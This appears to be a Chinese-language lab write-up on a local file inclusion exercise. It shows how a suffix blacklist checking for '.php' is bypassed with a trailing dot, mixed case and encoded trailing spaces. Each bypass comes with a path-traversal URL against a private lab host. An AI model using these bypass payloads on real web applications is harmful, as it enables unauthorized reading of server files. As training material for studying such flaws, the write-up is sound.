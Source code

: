 > 黑名单:截取文件名后缀4个字符是否是`.php`

要访问目录中结尾是php的文件时候，系统会**判断你传入的文件名结尾**，如果是php文件，那么就不会让你进行文件内容获取

![image-20241031101632349](https://image.201068.xyz/assets/13.中车高仿真场景靶场练习/image-20241031101632349.png)

##### 点和斜线

**文件后缀名加点**    

把`php`变为 `php.`

> php.

PHP的`file_get_contents()`函数会根据传入的路径读取文件内容。

在文件系统中，实际文件的扩展名是`.php`，但由于传入的字符串包含额外的`.`，PHP仍然会解析并试图读取实际的`phpinfo.php`文件。

文件系统通常会将`phpinfo.php.`视为一个有效的文件名，但在字符串比较时，检查仍然基于传入的内容。

```bash
http://192.168.70.10:8101/LFI-3/index.php?file=../LFI-2/1.php.
```

![image-20241031101740072](https://image.201068.xyz/assets/13.中车高仿真场景靶场练习/image-20241031101740072.png)



##### 大小写绕过

这里进行字符串比较就有漏洞，我们可以把php中任意一个或多个**换成大写**，这样进行判断的时候就能够绕过

比如我要查看`phpinfo.php`     就可以写成`phpinfo.Php`从而逃过检查

> .Php

```bash
http://192.168.70.10:8101/LFI-3/index.php?file=../LFI-2/1.Php
```

![image-20241031101827543](https://image.201068.xyz/assets/13.中车高仿真场景靶场练习/image-20241031101827543.png)

##### 空格绕过

比如我要查看`phpinfo.php`     就可以写成`phpinfo.php空格 ` ,从而逃过检查，判断的时候就可以绕过后缀名检查了

> .php空格
>
> .php%20
>
> .php%a0
>
> .php+

```bash
http://192.168.70.10:8101/LFI-3/index.php?file=../LFI-2/1.php%20
http://192.168.70.10:8101/LFI-3/index.php?file=../LFI-2/1.php+
```

![image-20241031102023810](https://image.201068.xyz/assets/13.中车高仿真场景靶场练习/image-20241031102023810.png)
